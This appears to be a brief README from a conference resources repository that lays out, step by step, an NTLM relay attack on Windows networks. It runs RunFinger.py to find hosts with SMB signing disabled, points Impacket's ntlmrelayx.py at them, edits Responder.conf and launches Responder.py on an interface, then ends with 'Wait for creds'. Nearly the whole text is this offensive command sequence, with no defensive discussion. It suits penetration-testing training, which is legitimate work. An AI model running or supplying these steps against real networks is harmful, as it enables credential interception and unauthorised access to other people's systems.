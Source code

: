 # DojoConf-Recursos

comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "error.log" -print
```

1. Identify network systems that do not require SMB message validation
```
Run python  **RunFinger.py -i IP_Range** to detect machine with SMB signing:disabled.
```
Configure Impacket’s NTLMrelayx to target those systems
    * **echo "IP"  >> targets.txt**
    * **ntlmrelayx.py -tf targets.txt --smb2support**
2. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
3. Open the Responder.conf file and set the value of SMB and HTTP to Off
    * **Responder.py** -I eth0 -rdw
4. Wait for creds

